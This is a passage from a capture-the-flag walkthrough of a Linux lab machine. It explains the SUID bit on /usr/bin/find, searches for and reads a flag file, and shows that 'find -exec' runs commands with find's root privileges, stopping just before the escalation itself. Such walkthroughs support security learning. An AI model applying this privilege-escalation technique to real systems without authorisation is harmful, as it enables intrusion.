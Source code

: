 It's under **SUID** section. What does that mean?
Let's look closely to the */find* record:
``` bash
-rwsr-xr-x 1 root root 159K Jan 6 2012 /usr/bin/find
```

Notice the first part:
``` bash
-rwsr-xr-x
```
The fourth character is **s**, and it's in the place of execution bit for owner. This is what SUID means - no matter which user runs this command, it will run with **root** privilages. Awesome!

You can find more about SUID in [this great article](https://securiumsolutions.com/privilege-escalation-with-suid-in-linux/)

But before we go any further into exploiting this fact, let's use the *find* command!

``` bash
find /**/*flag*

/home/flag4
/home/flag4/.bash_logout
/home/flag4/-profile
/home/flag4/flag4.txt
/home/flag4/.bash_history
/home/flag4/.bashrc
/proc/kpageflags
```

Let's peek into **flag4.txt** file:
``` bash
cat /home/flag4/flag4.txt

Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy. Or maybe it is?
```

This tells us that we are on a good track. Can we peek into */root* folder?

``` bash
ls -la /root

ls: cannot open directory /root: Permission denied
```

Just as expected. Let's go back to escalating privileges.

#### Find!
This awesome command is quite powerful. *Find* can perform some operations for each record it *finds*. To use this, include *-exec* flag, like in the example:
``` bash
find /**/*flag* -exec echo "filename: {}" \;

filename: /home/flag4
filename: /home/flag4/.bash_logout
filename: /home/flag4/.profile
filename: /home/flag4/flag4.txt
filename: /home/flag4/.bash_history
filename: /home/flag4/.bashrc
filename: /proc/kpageflags
```
Here, we just formatted the text using *echo* command.
What is interesting here, is that *find* spawns new process for each execution of specified command. Such process inherits *find's* privileges. 
